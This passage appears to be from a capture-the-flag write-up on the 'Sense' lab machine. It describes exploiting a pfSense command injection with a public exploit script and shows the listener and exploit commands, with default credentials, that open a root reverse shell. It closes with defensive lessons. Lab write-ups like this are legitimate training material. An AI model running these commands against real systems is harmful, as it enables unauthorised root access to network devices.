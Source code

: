 It seems that the status_rrd_graph_img.php script is vulnerable to a command injection. To exploit that, the script is passing a simple python reverse shell (with the configuration parameters we pass as arguments) as a command. It does octal encode the reverse shell command which leads me to believe that there is either some form of filtering being done at the backend or the application crashes on certain characters. To sum up, it’s a very simple script that sends a reverse shell back to our attack machine.

Therefore, let’s up a listener to receive the shell.

```
nc -nlvp 1234
```

Then run the exploit.

```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 1234 --username rohit --password pfsense
```

We have a shell!

![](../img/Sense Writeup wo Metasploit/1_HlkTLkGA2OYf6Nthu8ISUw.png)

For this machine, we don’t have to escalate privileges since pfSense is running as root and therefore when we exploited the command injection vulnerability we got a shell with root privileges.

View the user.txt and root.txt flags.

![](../img/Sense Writeup wo Metasploit/1_PjJO-DHzn0zFlKLW9TP7ew.png)

It’s worth noting that this can be easily done manually and is a good exercise for machines that don’t have scripts to automate the exploit.

# Lessons Learned

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Information disclosure. The changelog.txt & system-users.txt files were publicly available to anyone that enumerates the directories on the webserver. Those files gave us information about the vulnerabilities in the web server and credential information for one of the accounts. Administrators should never publicly store sensitive information.

1. Use of default credentials. The user used the default password that is shipped with the application. Since default credentials are publicly available and can be easily obtained, the user should have instead used a sufficiently long password that is difficult to crack.

1. Command injection in the pfSense software that allowed us to send a shell back to our attack server. This could have been avoided if the user had patched the system and installed the most recent version of pfSense.

As mentioned earlier, we didn’t have to escalate privileges for this box since pfSense runs with root privileges and therefore we got a shell with root privileges.

# Conclusion

18 machines down, 29 more to go!

![](../img/Sense Writeup wo Metasploit/1_Z7EBl8dmiloKV2b6pjRiQw.png)